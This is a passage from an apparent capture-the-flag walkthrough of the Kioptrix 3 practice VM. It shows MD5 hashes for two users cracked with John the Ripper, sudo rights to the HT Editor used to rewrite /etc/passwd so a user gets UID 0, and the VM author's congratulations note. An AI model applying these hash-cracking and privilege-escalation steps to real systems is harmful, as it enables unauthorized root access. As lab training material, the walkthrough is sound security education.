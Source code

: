 Using John The Ripper password cracker:
{% codeblock %}
root@kali32:~# cat pass 
loneferret:5badcaf789d3d1d09794d8f021f40f0e:::::::
dreg:0d3eccfb887aabd50f243b3f155c0f85:::::::
..
root@kali32:~# john pass --format=raw-md5 --show
loneferret:starwars:::::::
dreg:Mast3r:::::::

2 password hashes cracked, 0 left
{% endcodeblock %}

We log as loneferret user and after listing sudo -l we will see that the HT
Editor could be invoked. 

In editor running with the root privileges we change the /etc/passwd entry
according:
{% codeblock %}
dreg:x:0:0:Dreg Gevans,0,555-5566,:/home/dreg:/bin/bash                                                                             │
{% endcodeblock %}

We log in as dreg / Mast3r with root privileges and read the congratulation
file, there is some information about alternative solutions / exploits:
{% codeblock %}
root@Kioptrix3:/root# cat Congrats.txt
Good for you for getting here.
Regardless of the matter (staying within the spirit of the game of course)
you got here, congratulations are in order. Wasn't that bad now was it.

Went in a different direction with this VM. Exploit based challenges are
nice. Helps workout that information gathering part, but sometimes we
need to get our hands dirty in other things as well.
Again, these VMs are beginner and not intented for everyone.
Difficulty is relative, keep that in mind.

The object is to learn, do some research and have a little (legal)
fun in the process.


I hope you enjoyed this third challenge.

Steven McElrea
aka loneferret
http://www.kioptrix.com


Credit needs to be given to the creators of the gallery webapp and CMS used
for the building of the Kioptrix VM3 site.

Main page CMS:
http://www.lotuscms.org

Gallery application:
Gallarific 2.1 - Free Version released October 10, 2009
http://www.gallarific.com
Vulnerable version of this application can be downloaded
from the Exploit-DB website:
http://www.exploit-db.com/exploits/15891/

The HT Editor can be found here:
http://hte.sourceforge.net/downloads.html
And the vulnerable version on Exploit-DB here:
http://www.exploit-db.com/exploits/17083/


Also, all pictures were taken from Google Images, so being part of the
public domain I used them.
{% endcodeblock %}
